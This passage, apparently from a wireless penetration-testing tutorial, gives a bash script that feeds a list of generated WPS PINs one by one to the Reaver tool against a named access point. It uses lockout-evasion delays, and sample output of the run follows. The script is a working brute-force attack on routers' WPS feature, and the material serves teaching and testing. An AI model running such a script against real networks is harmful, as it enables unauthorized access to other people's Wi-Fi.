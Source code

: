 #We add generated PINs into this list
PINS='73834410 94229882 73834410 06490959 11184812 63311501 11184812 36499373 63313604 99956042 95661469 89478486 11184812 11184812 95755212 20854836 20144326 33946153 13142452 74163052 51875350 43977680 56587340 95719115 48563710 92148659 05294176 89532331 68175542 71412252 80652847 76229909 46264848 82799427 20233921 31957199 10864111 62327145 30432031 90970948 22369628 33554433 34259283 35611530 20172527 67958146 12345670 74244973'

for PIN in $PINS
do
    echo Attempting PIN: $PIN
    sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p $PIN
done
echo "PIN Guesses Complete"
</code></pre>
<p>With this script, we execute the same Reaver command for every PIN in the provided list. While it could be refined or built onto, the basic functionality is as follows:</p>
<ul>
<li>For each generated PIN attempted, the script will try the PIN only once, and then wait for 100 seconds if the access point (AP) locks</li>
<li>Additionally, for every three attempts made, it will pause for 45 seconds.</li>
<li>The script iterates through all the PINs in the list, which can be seen in action in the example below:</li>
</ul>
<pre><code class="language-shell-session">[!bash!]$ sudo bash pinguess.sh

Attempting PIN: 73834410

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="6e0d060b0808000b1c2e1a0f0d000b1a1d0102400d0103" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
&lt;snip&gt;
Attempting PIN: 94229882

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="a8cbc0cdcecec6cddae8dcc9cbc6cddcdbc7c486cbc7c5" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 60:38:E0:A2:3D:2A 
&lt;snip&gt;
Attempting PIN: 06490959

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="2f4c474a4949414a5d6f5b4e4c414a5b5c4043014c4042" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
&lt;snip&gt;
Attempting PIN: 76229909

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="7112191417171f1403310510121f1405021e1d5f121e1c" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
